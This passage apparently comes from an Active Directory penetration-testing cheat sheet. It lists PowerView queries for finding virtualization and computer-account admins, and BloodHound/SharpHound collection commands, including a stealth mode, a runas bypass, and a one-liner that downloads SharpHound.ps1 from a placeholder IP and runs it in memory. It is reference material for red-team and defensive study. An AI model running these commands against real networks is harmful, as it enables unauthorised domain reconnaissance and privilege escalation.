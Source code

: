 Virtual Admins usually have full access to the virtualization platform identifying and owning these accounts can often give total control over to an attacker.

#### PowerView

```bash
Get-NetGroup "*Hyper*" | Get-NetGroupMember
Get-NetGroup "*VMWare*" | Get-NetGroupMember
```

### Systems with Admin Rights

Finding computer accounts with a `$` sign at the end of the hostname in an admin group we can then compromise the system and obtain SYSTEM privileges. The SYSTEM account on the compromised computer would then have AD admin privileges.

#### PowerView

```bash
Get-NetGroup "*admins*" | Get-NetGroupMember -Recurse |?{$_.MemberName -Like '*$'}
```

## Tools

### Bloodhound

#### Ingestors

```bash
# Standard local execution
./SharpHound.exe --CollectionMethods All,GPOLocalGroup
Invoke-BloodHound -CollectionMethod All,GPOLocalGroup
Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV
Invoke-BloodHound -CollectionMethod LoggedOn

# Specify different domain and run in stealth mode and collect only RDP data
Invoke-BloodHound --d <Domain> --Stealth --CollectionMethod RDP

# Run in context of different user
runas.exe /netonly /user:domain\user 'powershell.exe -nop -exec bypass'

# Download and execute in memory
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('http://<IP>:/SharpHound.ps1');Invoke-BloodHound"

# Metasploit
use post/windows/gather/bloodhound     
```

### Custom Queries

Add the queries below into BloodHound for further queries.

-   **CompassSecurity:** [https://github.com/CompassSecurity/BloodHoundQueries](https://github.com/CompassSecurity/BloodHoundQueries)
-   **Hausec:** [https://github.com/hausec/Bloodhound-Custom-Queries](https://github.com/hausec/Bloodhound-Custom-Queries)
-   **Seajaysec:** [https://gist.github.com/seajaysec](https://gist.github.com/seajaysec)
